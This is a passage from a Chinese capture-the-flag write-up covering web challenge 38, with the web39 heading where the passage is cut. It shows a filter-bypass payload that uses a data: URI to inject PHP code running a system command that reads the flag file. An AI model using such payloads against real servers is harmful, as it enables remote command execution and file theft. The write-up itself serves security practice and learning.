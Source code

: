 得到flag

------

#### web38

分析

![image-20231216120103215](照片/image-20231216120103215.png)

过滤了

```
flag|php|file
```

那么上题中的payload就用不了，重新构建

```
/?c=data:text/plain,<?=system("tac fla*");?>
```

![image-20231216120133499](照片/image-20231216120133499.png)

得到flag

------

#### web39

分析
